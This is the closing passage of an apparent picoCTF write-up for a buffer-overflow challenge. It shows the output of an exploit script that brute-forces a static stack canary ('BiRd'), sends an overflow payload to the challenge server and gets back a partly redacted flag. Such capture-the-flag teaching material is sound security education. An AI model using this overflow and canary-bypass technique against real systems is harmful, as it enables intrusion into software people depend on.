 Since I segmented my script into parts, I decided against putting a giant codeblock here with the same code as earlier. Instead, I just put it on a [Gist](https://gist.github.com/jktrn/bafbc08bbee179588207e3e3caffde75)! Anyways, here's the full script in action:

<figure class="highlight plaintext"><table><tr><td class="code"><pre><span class="meta prompt_">$ </span>python3 buffer-overflow-3.py
[<span style="color:#47D4B9"><b>+</b></span>] Finding canary: 'BiRd'
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port 57427: Done
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (162B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to saturn.picoctf.net port 57427
[<span style="color:#47D4B9"><b>+</b></span>] aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaBiRdraaasaaataa-
auaaa6^H
    Ok... Now Where&apos;s the Flag?
    picoCTF{Stat1C_c4n4r13s_4R3_b4D_<span style="color:#696969"><b>[REDACTED]</b></span>}
</pre></td></tr></table></figure>

We've successfully performed a brute force on a vulnerable static canary!

<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
